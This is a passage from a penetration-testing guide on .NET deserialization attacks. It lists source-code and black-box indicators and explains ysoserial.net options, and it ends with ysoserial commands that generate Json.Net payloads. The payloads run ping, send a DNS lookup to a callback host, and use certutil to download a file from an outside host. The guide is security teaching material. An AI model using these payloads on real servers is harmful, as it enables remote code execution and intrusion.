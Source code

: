 1. `TypeNameHandling`
2. `JavaScriptTypeResolver`

The focus should be on serializers that permit the type to be determined by a variable under user control.

<br>

### BlackBox

The search should target the Base64 encoded string **AAEAAAD/////** or any similar pattern that might undergo deserialization on the server-side, granting control over the type to be deserialized. This could include, but is not limited to, **JSON** or **XML** structures featuring `TypeObject` or `$type`.

<br>

### ysoserial.net

In this case you can use the tool [**ysoserial.net**](https://github.com/pwntester/ysoserial.net) in order to **create the deserialization exploits**. Once downloaded the git repository you should **compile the tool** using Visual Studio for example.

If you want to learn about **how does ysoserial.net creates it's exploit** you can [**check this page where is explained the ObjectDataProvider gadget + ExpandedWrapper + Json.Net formatter**](basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net.md).

The main options of **ysoserial.net** are: **`--gadget`**, **`--formatter`**, **`--output`** and **`--plugin`.**

- **`--gadget`** used to indicate the gadget to abuse (indicate the class/function that will be abused during deserialization to execute commands).
- **`--formatter`**, used to indicated the method to serialized the exploit (you need to know which library is using the back-end to deserialize the payload and use the same to serialize it)
- **`--output`** used to indicate if you want the exploit in **raw** or **base64** encoded. _Note that **ysoserial.net** will **encode** the payload using **UTF-16LE** (encoding used by default on Windows) so if you get the raw and just encode it from a linux console you might have some **encoding compatibility problems** that will prevent the exploit from working properly (in HTB JSON box the payload worked in both UTF-16LE and ASCII but this doesn't mean it will always work)._
- **`--plugin`** ysoserial.net supports plugins to craft **exploits for specific frameworks** like ViewState

<br>

### More ysoserial.net parameters

- `--minify` will provide a **smaller payload** (if possible)
- `--raf -f Json.Net -c "anything"` This will indicate all the gadgets that can be used with a provided formatter (`Json.Net` in this case)
- `--sf xml` you can **indicate a gadget** (`-g`)and ysoserial.net will search for formatters containing "xml" (case insensitive)

**ysoserial examples** to create exploits:

```bash
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

```